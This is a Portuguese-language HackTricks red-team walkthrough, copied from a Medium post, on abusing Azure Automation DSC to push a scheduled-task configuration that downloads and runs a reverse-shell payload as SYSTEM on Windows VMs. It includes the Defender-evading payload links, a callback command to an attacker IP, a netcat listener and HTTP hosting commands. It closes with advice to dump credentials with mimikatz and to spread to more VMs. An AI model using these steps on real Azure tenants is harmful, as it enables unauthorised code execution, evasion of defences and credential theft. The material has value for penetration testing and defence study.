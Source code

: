 # Az - State Configuration RCE

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Este post foi copiado de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Preparação da Infraestrutura do Servidor Remoto (C2) <a href="#f0fa" id="f0fa"></a>

Estarei hospedando uma versão simplificada do payload Nishang Invoke-PowerShellTcp.ps1 do servidor remoto "40.84.7.74", que é a caixa Kali. O nome do payload será "RevPS.ps1". Para evitar que o script Nishang seja excluído pelo Windows Defender por qualquer motivo (talvez você prefira salvar o arquivo no disco), aqui está uma versão leve que você pode usar e que evitará o Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Isso será hospedado por um simples Python Simple Server na caixa Kali.

### Passo 1 — Criar Arquivos <a href="#89de" id="89de"></a>

Precisaremos criar outro arquivo de configuração DSC. Um modelo pode ser baixado aqui: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Este arquivo de configuração usará a mesma função de escrita de arquivo que usamos anteriormente. Desta vez, o conteúdo inclui código para baixar e executar um payload do nosso servidor remoto. Além disso, estamos usando uma função de tarefa agendada disponível no módulo _ComputerManagementDsc_. A função de tarefa agendada terá um papel chave na execução e nos fornecerá privilégios de SYSTEM mais tarde.

Também baixaremos um script que será usado para publicar nossa configuração na VM. Ele está localizado aqui: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Esses arquivos servirão como um modelo. **Você precisará preencher os nomes das variáveis e parâmetros com o que você está usando**. Isso inclui os nomes dos recursos, caminhos de arquivos e os nomes do servidor/payload externo que você está usando. Por favor, consulte os comentários no código.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Passo 2 — Compactar Arquivo de Configuração <a href="#c2c2" id="c2c2"></a>

Com nossos dois arquivos criados, vamos compactar o arquivo **‘reverse\_shell\_config.ps1’** para que possa ser enviado para a Conta de Armazenamento
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### Passo 3 — Configurar Contexto de Armazenamento & Upload <a href="#bed9" id="bed9"></a>

Novamente, vamos configurar o contexto da nossa Conta de Armazenamento, o que eu já fiz. Eu já tenho um contêiner chamado '**azure-pentest**', então é aqui que farei a publicação:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### Passo 4 — Preparar Kali Box <a href="#20fb" id="20fb"></a>

Na nossa Kali box, podemos simplesmente usar _wget_ para baixar nosso payload do PowerShell. O script do reverse-shell em sua forma bruta está localizado aqui: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Precisamos editar o script de reverse-shell adicionando nossos parâmetros, para que a VM do Windows saiba onde se conectar após a execução. No meu caso, adicionei o seguinte:
```
```
RevPShell -Reverse 40.84.7.73 443
```
### Passo 5 — Publicar Arquivo de Configuração <a href="#9ad6" id="9ad6"></a>

Agora vamos executar nosso arquivo de configuração. Eu configurei o meu para ser publicado na Área de Trabalho para uma melhor visualização, no entanto, ele pode ser publicado praticamente em qualquer lugar. Após alguns minutos, veremos que o script de reverse-shell foi publicado!

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Passo 6 — Hospedar Payload e Configurar Listener <a href="#c55f" id="c55f"></a>

Uma vez que publicamos a configuração, podemos iniciar simultaneamente um Python SimpleHTTPServer na porta 80 para hospedar o payload, juntamente com um listener netcat para capturar a conexão:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
Vemos que a tarefa agendada foi executada e nosso payload foi recuperado e executado na memória com privilégios de nível **SYSTEM**!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusão <a href="#1ec2" id="1ec2"></a>

Isso agora abre a porta para muitas possibilidades. Como temos um shell rodando como **SYSTEM**, podemos despejar credenciais com mimikatz (potencialmente arriscado dependendo da maturidade do EDR para recursos na nuvem). Se você despejar credenciais, há uma grande chance de que elas possam ser reutilizadas em diferentes recursos. Por último, uma grande lição é que, em vez de limitar isso a uma VM, você agora tem a capacidade de potencialmente aplicar essa configuração em várias VMs.

Com isso, concluímos nossas aventuras com Azure Automation DSC! Espero que você tenha se divertido, aprendido muito e continue a expandir com sua própria criatividade.

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
